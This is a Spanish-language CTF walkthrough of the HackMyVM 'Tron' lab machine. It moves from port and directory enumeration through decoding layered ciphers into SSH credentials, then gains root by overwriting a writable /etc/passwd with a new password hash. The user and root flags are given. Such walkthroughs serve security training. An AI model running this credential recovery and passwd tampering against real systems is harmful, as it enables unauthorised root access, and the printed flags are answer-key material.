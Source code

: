 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Tron HackMyVM (Easy- Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-10 02:16 EDT
Nmap scan report for 192.168.1.172
Host is up (0.00029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1f:ed:64:93:84:b5:b2:e8:af:5a:0e:6f:52:af:4b:48 (RSA)
|   256 3d:df:6f:02:13:9e:15:f8:51:94:30:f8:45:e3:f2:93 (ECDSA)
|_  256 2f:f4:af:e1:f4:c4:a5:3b:50:bb:e5:b9:2a:9f:39:de (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Master Control Program
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:8B:31:4C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.62 seconds
```

Veremos que hay un puerto `80` levantado, por lo que si entramos en el veremos una pagina normal y corriente, vamos a realizar un poco de `fuzzing` para ver que podemos ver.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.172/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 309]
/.html                (Status: 403) [Size: 278]
/img                  (Status: 200) [Size: 936]
/manual               (Status: 200) [Size: 626]
/robots.txt           (Status: 200) [Size: 623]
/font                 (Status: 200) [Size: 935]
/.html                (Status: 403) [Size: 278]
/MCP                  (Status: 200) [Size: 1140]
/server-status        (Status: 403) [Size: 278]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Veremos de todo esto una ruta bastante interesante llamada `/MCP` vamos a probar a entrar dentro de la misma.

Si entramos dentro veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay varios archivos, pero si nos descargamos el archivo llamado `tron.txt` veremos lo siguiente:

```
MASTER CONTROL PROGRAM
----------------------

Ram:
Do you believe in the Users?

Crom:
Sure I do! If I didn't have a User, than who wrote me? 


KysrKysrKysrK1s+Kz4rKys+KysrKysrKz4rKysrKysrKysrPDw8PC1dPj4+PisrKysrKysrKysrKy4tLS0tLi0tLS0tLS0tLS0tLisrKysrKysrKysrKysrKysrKysrKysrKy4tLS0tLS0tLS0tLS0tLS0tLS0tLS4rKysrKysrKysrKysrLg==
```

Vemos que hay un codigo cifrado, por lo que vamos a intentar decodificarlo de la siguiente forma:

```shell
echo "KysrKysrKysrK1s+Kz4rKys+KysrKysrKz4rKysrKysrKysrPDw8PC1dPj4+PisrKysrKysrKysrKy4tLS0tLi0tLS0tLS0tLS0tLisrKysrKysrKysrKysrKysrKysrKysrKy4tLS0tLS0tLS0tLS0tLS0tLS0tLS4rKysrKysrKysrKysrLg==" | base64 -d
```

Info:

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>++++++++++++.----.-----------.++++++++++++++++++++++++.--------------------.+++++++++++++.
```

Vemos que nos da otro codigo codificado que esta en formato `brainfuck` por lo que si lo decodificamos se quedara algo asi:

```
player
```

Vemos que sera un nombre de usuario, ahora si nos vamos a `terminalserver` -> `30513.txt` veremos esto:

```
substitute
--------------------------
plaintext
abcdefghijklmnopqrstuvwxyz

ciphertext
zyxwvutsrqponmlkjihgfedcba
--------------------------
```

Vemos que esto puede ser como un codigo para poder decodificar algo que este por ahi, por lo que vamos a investigar un poco.

Buscando un rato, si vamos a la pagina principal e inspeccionamos el codigo veremos lo siguiente:

```html
<!-- kzhh:SbWP9q94ZtE9qD  -->
```

Vamos a utilizar esto para aplicar la decodificacion de sustitucion con la palabra que encontramos a ver que vemos:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado y la contraseña de `player` es `SyWP9j94ZgE9jD` por lo que vamos a conetcarnos por `SSH`.

### SSH

```shell
ssh player@<IP>
```

Metemos como contraseña `SyWP9j94ZgE9jD` y veremos que estamos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
HMVMuserplayer2021
```

## Escalate Privileges

Despues de buscar un rato si hacemos lo siguiente:

```shell
find /etc -type f -writable 2>/dev/null
```

Info:

```
/etc/passwd
```

Veremos que podemos sobreescribir el archivo `passwd`, por lo que podremos hacer lo siguiente:

Antes codificaremos la contraseña para que la admita en el archivo `passwd`.

```shell
openssl passwd 1234
```

Info:

```
$1$YoLbOiy7$eDZyWwzWVII2TQyt3qjTH.
```

Ahora en la maquina victima vamos a establecerle dicha contraseña codificada a `root`.

```shell
nano /etc/passwd

#Dentro del nano
root:x:0:0:root:/root:/bin/bash #Pasamos de esto
root:$1$YoLbOiy7$eDZyWwzWVII2TQyt3qjTH.:0:0:root:/root:/bin/bash #<--------------- Ha esto
```

Lo guardamos y realizamos lo siguiente:

```shell
su root
```

Metemos como contraseña `1234` y veremos que seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
HMVMMasterControlProgram2021
```
